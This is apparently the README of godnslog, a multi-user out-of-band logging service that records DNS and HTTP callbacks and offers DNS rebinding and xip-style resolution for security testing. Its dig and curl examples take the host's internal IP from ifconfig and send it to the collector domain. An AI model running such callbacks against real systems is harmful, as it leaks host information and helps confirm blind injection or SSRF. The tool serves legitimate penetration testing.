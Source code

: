 # Introduce

Features:

- Multi-user
- DNSLOG
- HTTPLOG
- DNS Rebinding
- Client API
- xip


Each user can get one individual domain which prefix is called `shortId`.


![](https://s1.ax1x.com/2020/08/31/dOzKZd.png)

```
712hu2c4gy34.godnslog.com: user domain
712hu2c4gy34: shortId
```

## DNSLOG

Any dns record of `712hu2c4gy34.godnslog.com` or `*.712hu2c4gy34.godnslog.com` will be record in DNSLOG table, and will be clear after 48 hours.

```bash
dig `/sbin/ifconfig eth0|grep inet|grep -v 127.0.0.1|grep -v inet6|awk '{print $2}'|tr -d "addr:"`.712hu2c4gy34.godnslog.com
```


![](https://s1.ax1x.com/2020/08/31/dXPba4.png)

Records infomations：
- domain
- IP
- time

## DNS Rebinding

See [](/document/rebinding)

## HTTPLOG

Any http request of accessing  `http://${IP}/log/${shortId}/${variable}` will be record in HTTPLOG table and it will be clear after 48 hours

HTTPLOG informations:

- IP
- Method
- Path
- User-Agent
- Content-Type
- Data body
- Time

```bash
curl http://100.100.100.100/log/ktqlujjpgc4j/`/sbin/ifconfig eth0|grep inet|grep -v 127.0.0.1|grep -v inet6|awk '{print $2}'|tr -d "addr:"`
```


![](https://s1.ax1x.com/2020/08/31/dXiiIH.png)

## client api


![](https://s1.ax1x.com/2020/08/31/dXicy6.png)


## xip

Like <http://xip.io>

Any custom resolve by request

	   10.0.0.1.xip.io   resolves to   10.0.0.1
	      www.10.0.0.1.xip.io   resolves to   10.0.0.1
	   mysite.10.0.0.1.xip.io   resolves to   10.0.0.1
	  foo.bar.10.0.0.1.xip.io   resolves to   10.0.0.1